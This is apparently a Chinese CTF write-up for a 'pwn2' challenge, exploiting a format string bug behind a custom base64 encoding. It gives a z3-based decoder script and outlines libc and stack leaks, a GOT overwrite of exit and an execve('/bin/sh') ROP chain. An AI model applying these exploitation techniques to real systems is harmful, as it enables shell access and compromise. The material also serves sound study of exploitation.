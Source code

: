 # pwn2  
格式化字符串漏洞，而且在利用完漏洞后可以有3次机会任意地址写1字节  
![](./pics/chc.png)  
![](./pics/main.png)  
![](./pics/bug.png)  
但是输入的字符串没有直接传入dest，而是经过了一次编码。  
编码函数如下  
![](./pics/encode.png)  
是base64编码，只要写出解码函数就行，但是我不会。所以我用z3求解器无脑写了个解码函数。  
```
destring='7M9BXCGPswHRFxvbdaNgyVilEmpD/foYhTznK6Lkj5A+t3W20reUZO18QcSqJI4u'
def decode(aa,bb,cc):
    a=Int('a')
    b=Int('b')
    c=Int('c')
    d=Int('d')
    s=Solver()
    s.add(a>=0 , a < 64)
    s.add(b>=0 , b < 64)
    s.add(c>=0 , c < 64)
    s.add(d>=0 , d < 64)
    s.add(aa==(4*a+(b-b%16)/16)%256)
    s.add((16*b+ (c-c%4)/4)%256==bb)
    s.add(cc==(d+64*c)%256)
    print(s.check())
    print(s.model())
    m=s.model()
    return m.eval(a),m.eval(b),m.eval(c),m.eval(d)
def realpayload(payload):
    payload=payload.ljust(len(payload)+len(payload)%3,b'a').decode()
    print(payload)
    ans=b''
    for i in range(len(payload)//3):
        print(ord(payload[3*i]),ord(payload[3*i+1]),ord(payload[3*i+2]))
        m=decode(ord(payload[3*i]),ord(payload[3*i+1]),ord(payload[3*i+2]))
        # print(m[0].as_long(),m[1].as_long(),m[2].as_long(),m[3].as_long())
        ans+=destring[m[0].as_long()].encode()+destring[m[1].as_long()].encode()+destring[m[2].as_long()].encode()+destring[m[3].as_long()].encode()
    # print(ans)
    return ans
```
如此只要传入想构造的payload就能得到原始payload  
思路：
每4个字符经过base64后生成3个字符，把payload补齐后按4个字符一组传进去就行了  
接下来我做的事如下：  
1. 利用格式化字符串漏洞获得libcbase和stack_addr  
2. 利用任意地址写把exit函数的got表改为main函数里任意地址写的前面的地址，这样可以无限次利用  
3. 多次利用任意地址写在rbp下面构造rop链，并将\bin\sh写到bss段  
4. 构造完成将exit的got表改为return的地址，退出重复调用    

细则：
libc和stack的地址分别处于第31和34个参数，用%p输出得到  
![](./pics/getpos.png)  
此次rop链使用execve法，要点如下：  
64位下要使rax为0x3b，rdi为"\bin\sh"的地址，rsi和rdx为0  
没用其他方法（system，onegadget）是因为不知道为什么把exit改了以后有很多函数就不能再调用了，包括当时本来想把exit直接改成格式化字符串漏洞函数前的地址，但试了之后发现在调用printf时出错了，system等函数也是一样。  
